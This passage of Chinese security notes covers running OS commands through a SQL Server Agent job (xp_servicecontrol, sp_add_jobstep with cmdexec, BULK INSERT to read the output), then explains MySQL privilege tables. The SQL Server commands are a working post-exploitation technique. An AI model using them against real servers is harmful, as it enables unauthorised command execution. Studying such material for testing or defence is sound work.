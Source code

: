 - Microsoft.jet.oledb.4.0 一般在 32 位操作系统上才可以
- Windows 2008 以上默认无 Access 数据库文件，需要自己上传
- sqlserver 2015 默认禁用 Ad Hoc Distributed Queries，需要开启

### SQL Server Agent  Job

SQL Server Agent 是一项 Microsoft Windows 服务，它执行计划的管理任务，这些任务在 SQL Server 中称为作业。

- 启动 Agent：`exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT'`

- 创建任务 test 并执行命令，将结果写入1.txt

  ```mssql
  use msdb;
  exec sp_delete_job null,'test'
  exec sp_add_job 'test'
  exec sp_add_jobstep null,'test',null,'1','cmdexec','cmd /c "whoami>c:/1.txt"'
  exec sp_add_jobserver null,'test',@@servername
  exec sp_start_job 'test';
  ```

- 命令执行成功后没有回显，可以把1.txt 写到表中，再查询表中内容获取命令回显

  ```mssql
  Use model;
  bulk insert readfile from 'C:\1.txt'
  select * from readfile
  ```

## 番外

### MySQL 权限

#### 权限级别

- 全局性管理权限： 作用于整个 MySQL 实例 
- 数据库级权限： 作用于某个指定的数据库上或者所有的数据库上 
- 数据库对象级权限：作用于指定的数据库对象上（表、视图等）或者所有的数据库对象

#### 系统权限表

- User 表：存放用户账户信息以及全局级别（所有数据库）权限，决定了来自哪些主机的哪些用户可以访问数据库实例。如果有全局权限则意味着对所有数据库都有此权限 
- Db 表：存放数据库级别的权限，决定了来自哪些主机的哪些用户可以访问此数据库 
- Tables_priv 表：存放表级别的权限，决定了来自哪些主机的哪些用户可以访问数据库的这个表 
- Columns_priv 表：存放列级别的权限，决定了来自哪些主机的哪些用户可以访问数据库表的这个字段 
- Procs_priv 表：存放存储过程和函数级别的权限

#### MySQL 权限表的验证流程

1. 从 user 表中的 Host, User, Password 字段中判断连接的 ip、用户名、密码是否存在，存在则通过验证
2. 通过身份认证后，进行权限分配，按照 user，db，tables_priv，columns_priv 的顺序进行验证
3. 检查全局权限表 user，如果 user 中对应的权限为 Y，则此用户对所有数据库的权限都为 Y，将不再检查其他表
4. 若为 N，则到 db 表中检查此用户对应的具体数据库，并得到 db 中为 Y 的权限
5. 若 db 中为 N，则检查 tables_priv 中此数据库对应的具体表，取得表中的权限 Y，以此类推
